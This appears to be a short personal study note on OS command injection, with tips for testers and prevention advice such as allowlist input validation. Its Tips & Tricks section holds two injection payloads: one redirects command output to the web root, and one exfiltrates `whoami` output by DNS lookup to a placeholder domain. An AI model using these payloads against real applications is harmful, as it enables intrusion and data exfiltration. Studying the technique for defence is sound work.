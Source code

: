 ```yaml
---
tags: ⚡
topic: [[Web-Sec]]
---
```


# OS command injection

---

## Tips & Tricks

- redirecting output to web root
	- if app serves static resources from `/var/www/static` then you can redirect the output there
	- `& whoami > /var/www/static/whoami.txt &`
	- afterwards, you can view contents of file by accessing the URL
- use out-of-band techniques
	- exfiltrate through DNS: `|| nslookup $(whoami).subdomain.domain.com || `

## Prevention
Never call out to OS commands from application-layer code. There are alternate ways of implementing the required functionality using safer platform APIs.

If unavoidable, you need to have a strong input validation system. For example, validating:
- against a whitelitest of permitted values
- that the input is a number
- that the input contains only alpahnumeric chars & no other syntax or whitespace

> Never attempt to sanitize input by escaping shell metacharacters. This is just too error-prone and vulneable to being bypassed by a skilled attacker

---

## References

## See Also
[[Web-Sec]]

